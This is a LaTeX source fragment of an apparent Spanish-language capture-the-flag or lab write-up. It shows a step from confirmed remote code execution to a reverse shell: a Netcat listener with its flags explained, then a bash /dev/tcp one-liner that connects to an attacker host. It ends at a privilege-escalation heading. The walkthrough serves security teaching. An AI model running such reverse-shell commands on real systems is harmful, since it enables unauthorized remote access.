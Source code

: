 \documentclass[12pt,a4paper]{article}
\newcommand{\cmd}[1]{%
  \colorbox{inlinebg}{\texttt{\small\color{wlcyan}#1}}%
}
\begin{document}
\begin{flagbox}
  \textbf{RCE confirmado.} El comando se ejecuta en el contexto del usuario \texttt{www-data}.
\end{flagbox}

\subsection{Obtención de una Reverse Shell}

Con RCE confirmado, el siguiente paso es obtener una \textbf{reverse shell} para una interacción más cómoda con el servidor. Primero nos ponemos en escucha con Netcat en nuestra máquina atacante:

\begin{lstlisting}[language=bash]
nc -nlvp 666
\end{lstlisting}

\begin{notebox}
  \textbf{Desglose de parámetros \texttt{-nlvp}:}
  \begin{itemize}
    \item \cmd{-n} — No hace resolución DNS.
    \item \cmd{-l} — Activa el modo escucha (listen).
    \item \cmd{-v} — Modo verbose, muestra información sobre la conexión entrante.
    \item \cmd{-p 666} — Puerto local en el que Netcat queda a la espera.
  \end{itemize}
\end{notebox}

Desde la web shell, ejecutamos el payload de reverse shell:

\begin{lstlisting}[language=bash]
bash -c "bash -i >& /dev/tcp/192.168.1.46/666 0>&1"
\end{lstlisting}

Una vez establecida la conexión, obtenemos una shell interactiva en el servidor como \texttt{www-data}.

\section{Escalada de privilegios}

\subsection{Búsqueda de binarios SUID}
\end{document}

